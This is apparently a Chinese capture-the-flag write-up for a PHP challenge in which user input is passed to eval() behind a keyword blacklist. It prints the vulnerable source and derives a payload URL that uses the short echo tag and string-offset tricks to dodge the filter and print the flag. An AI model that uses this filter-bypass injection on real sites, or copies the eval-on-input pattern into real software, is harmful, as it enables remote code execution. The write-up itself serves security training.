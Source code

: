 ## 【题解】

**注：** 这里环境里的flag是自己输入的随机字符，所以不用考虑最后flag和答案不一致的问题

1.打开自己电脑中的浏览器，访问靶机开放的环境地址`http://IP:PORT/`来进行访问实验环境

![](files_for_writeup/1.png)

2.我们可以直接看到php主要逻辑代码：

```php
<?php
    error_reporting(0);
    require __DIR__.'/flag.php';

    $exam = 'return\''.sha1(time()).'\';';

    if (!isset($_GET['flag'])) {
        echo '<a href="./?flag='.$exam.'">Click here</a>';
    }
    else if (strlen($_GET['flag']) != strlen($exam)) {
        echo 'Not allowed length';
    }
    else if (preg_match('/`|"|\.|\\\\|\(|\)|\[|\]|_|flag|echo|print|require|include|die|exit/is', $_GET['flag'])) {
        echo 'Not allowed keyword';
    }
    else if (eval($_GET['flag']) === sha1($flag)) {
        echo $flag;
    }
    else {
        echo 'What\'s going on?';
    }

    echo '<hr>';

    highlight_file(__FILE__);
```

3.发现过滤了

```php
`
()
[]
```

导致很难调用函数和命令执行随后又想能否只能打印出flag发现过滤了

```php
echo
print
require
include
```

查阅资料发现可以用以下方式绕过，直接输出比如

```php
<?=$flag='123';?>
```

可以直接得到结果：123那么我们在这题中，只要构造出`<?=$flag?>`即可立刻输出我们要的flag，而不需要再去管sha1的相等问题那么如何构造`$flag`呢？可以用拼接的方式:

```php
$a='alag';$a{0}='f';
```
于是最后的payload：

```php
http://IP:PORT/?flag=$a='alag';$a{0}='f';1111111111111111;?><?=${$a}?>
```

